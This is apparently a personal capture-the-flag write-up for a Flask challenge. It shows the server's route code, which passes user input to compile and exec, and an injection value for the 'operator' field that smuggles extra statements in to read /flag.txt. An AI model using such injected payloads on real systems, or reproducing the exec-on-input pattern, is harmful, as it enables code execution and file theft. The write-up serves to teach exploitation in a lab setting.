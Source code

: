 # Evaluation Deck
For this challenge I forget to take screenshots during the event so I am running it locally for this writeup. We are given the address of a website and the source code which if a flask web server.

![webpage](/hack_the_boo/evaluation_deck/evaluation_deck.png)

After playing around with the card game for a bit I decided to dig around through the source code and see what stood out. After poking around I saw that an api was exposed, I took my a while to reach it as I forgot to add /api/ before trying to access the endpoints.

### routes.py
```
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The red flag for me was in the try section where a formatted string is turned into code to execute.
```
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}
```
All these values a read from a post request, *current_health* and *attack_power* are cast to integers so we need to hide our payload in *operator*. Whatever is stored is in *result* is what gets sent back to us so we need to get the flag stored there. If we sneak some ; in there we can execute multiple statements. After some trial and error I came up with that operator should be:
```
"; f = open('/flag.txt','r'); result = f.read();"
```
The last step was to send it to the server, initally I tried using curl.
![bad curl](/hack_the_boo/evaluation_deck/badrequest.PNG)
curl did not like having single quotes in my payload so I tried with postman instead and had success.
![postman](/hack_the_boo/evaluation_deck/postman.PNG)


After reading stackoverflow I figured I needed to use escape characters!
![curl](/hack_the_boo/evaluation_deck/curl.PNG)
And was able to get the flag using the terminal like a champ :)
